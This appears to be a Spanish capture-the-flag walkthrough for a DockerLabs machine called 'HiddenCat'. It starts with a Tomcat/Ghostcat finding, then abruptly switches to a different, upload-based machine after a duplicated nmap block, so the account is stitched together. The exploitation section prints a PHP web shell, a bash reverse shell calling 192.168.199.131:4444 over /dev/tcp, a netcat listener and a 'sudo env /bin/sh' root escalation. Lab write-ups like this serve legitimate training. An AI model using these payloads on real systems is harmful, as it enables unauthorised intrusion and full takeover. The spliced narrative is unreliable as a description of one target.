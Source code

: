 ```yaml
---
layout: post
title: Maquina HiddenCat
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/upload-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  Web Fuzzing
  -  Binarios UNIX
  -  Arbitrary File Upload
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** HiddenCat
- **Plataforma:**[DockerLabs](https://dockerlabs.es/)
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** Easy

#### **Configuración Entorno**
Primeramente, como siempre para configurar las máquinas de DockerLabs, exportamos los ficheros auto_deploy.sh y en este caso hiddencat.tar.
Para ejecutarlo utilizamos el siguiente comando:
```bash
sudo bash auto_deploy.sh hiddencat.tar
```
![Image 1](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img1.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y, una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**hiddencat.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la máquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 2](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img2.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.
Una vez comprobada la conectividad, iniciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:
```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rápido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la versión del servicio abierto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya más rápido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)
![Image 3](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img3.png)
![Image 4](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img4.png)

Vemos que tiene abiertos los puertos **22 (SSH), 8080 y 8009**.
Gracias a los scrips de nmap nos detecta lo siguiente:
-	Puerto 22: `OpenSSH 7.9p1`{:.succes}
-	Puerto 8009: `Apache Jserv (Protocol v1.3)`{:.error}
-	Puerto 8080: `Apache Tomcat 9.0.30`{:.error}

Descartamos de momento atacar al puerto 22 ya que cuenta con una versión de OpenSSH no vulnerable, por tanto, investigamos el puerto 8009 que corre un Apache Jserv. Encontramos la siguiente referencia al respecto en **HackTriks** https://book.hacktricks.xyz/v/es/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp, donde se detalla que versiones anteriores a 9.0.31, 8.5.51 y 7.0.100 de Apache Tomcat, si el puerto AJP está expuesto -como es el caso aquí, dado que tenemos la versión 9.0.30 y el puerto 8009 expuesto-, presentan una vulnerabilidad conocida como "Ghostcat" (CVE-2020-1938).

```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rapido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la version del servicio abirto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)

![Image 4](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img.png)

Podemos observar que solo cuenta con el puerto 80 abierto, al acceder via web nos encontramos con lo siguiente:
![Image 5](https://aanton94.github.io/blog/img/Upload/Img5.png)

Nos encontramos con un campo que nos permite subir un archivo, por lo tanto, tratamos de subir un fichero de prueba:
![Image 6](https://aanton94.github.io/blog/img/Upload/Img6.png)

Recibimos un mensaje de que el archivo se ha subido correctamente. A continuación, realizaremos fuzzing de la web para poder localizar posibles directorios. Utilizaremos la herramienta de fuzzing `gobuster`{:.info} aunque podríamos utilizar cualquier otra de este estilo, para ello utilizaremos un diccionario de directorios comunes.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```
![Image 7](https://aanton94.github.io/blog/img/Upload/Img7.png)

Al finalizar el fuzzing encontramos el directorio uploads, tratamos de acceder y podemos ver que en este directorio se almaceno el fichero que subimos anteriormente.
![Image 8](https://aanton94.github.io/blog/img/Upload/Img8.png)

Comprobamos que podemos abrir el fichero en el navegador.
![Image 9](https://aanton94.github.io/blog/img/Upload/Img9.png)

Por tanto, al tener una ruta donde podemos subir y abrir ficheros, intentaremos subir un fichero con codigo php malicioso para tratar de lograr ejecutar comandos de forma remota.

#### **Explotación**

Para la explotación vamos a crear un archivo php llamado cmd.php con el siguiente código:

```php
<?php
	system($_GET['cmd']);
?>
```

Este script PHP ejecuta un comando del sistema recibido a través de la variable GET llamada 'cmd'. Por lo tanto, puede ser una puerta de entrada para ejecutar comandos maliciosos si no se filtran adecuadamente las entradas del usuario.

Subimos el fichero cmd.php, nos dirigimos al directorio uploads y vemos que al leer el fichero el servidor ejecuta el codigo php, utilizamos la variable cmd definida en el script para ejecurar el comando `whoami`{:.info}.
![Image 10](https://aanton94.github.io/blog/img/Upload/Img10.png)

Y efectivamente, nos devuelve que es usuario es **www-data**, por lo tanto, confirmamos que tenemos ejecución remota de comandos, abusando de esta brecha de seguridad podemos intentar abrir una revese shell contra el servidor víctima.

Para ello pondremos nuestra maquina atacante en escucha por el puerto 4444 utilizando netcat:

```bash
nc -lvnp 4444
```
Y ejecutaremos una revese shell a través del script de php cmd.php subido anteriormente.

`http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >& /dev/tcp/192.168.199.131/4444 0>&1"`{:.info}

Al ejecutarlo no nos funciona, por tanto, la volvemos a pasar, pero esta vez aplicando un URL Encode:

`http://172.17.0.2/uploads/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.199.131%2F4444%200%3E%261%22`{:.info}

Y recibimos la reverse shell en el puerto que teníamos en escucha.
![Image 11](https://aanton94.github.io/blog/img/Upload/Img11.png)

Una vez tenemos la revese shell es hora de realizar el tratamiento de la TTY, ya que nos facilitara el manejo al no matar la shell al ejecutar control+c, control+l, etc.

Para ello ejecutamos los siguientes comandos:

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Una vez realizado comenzaremos con la escalada de privilegios, lo primero que hacemos siempre es revisar que binarios puede ejecutar nuestro usuario como `root`{:.error}, para ello ejecutamos `sudo -l`{:.info}.
![Image 12](https://aanton94.github.io/blog/img/Upload/Img12.png)

Vemos que podemos ejecutar el binario `/usr/bin/env`{:.info} como usuario `root`{:.error}, sin necesidad de conocer su contraseña. Para explotarlo podemos utilizar la web [http://https://gtfobins.github.io/](http://https://gtfobins.github.io/) y buscar la forma de explotar dicho binario. En este caso simplemente tenemos que ejecutar `sudo env /bin/sh`{:.info}
![Image 13](https://aanton94.github.io/blog/img/Upload/Img13.png)

Y efectivamente, somo `root`{:.error}, por lo tanto, `¡¡¡maquina vulnerada!!!`{:.success} :smirk::smirk::smirk:

#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.
![Image 14](https://aanton94.github.io/blog/img/Upload/Img14.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}

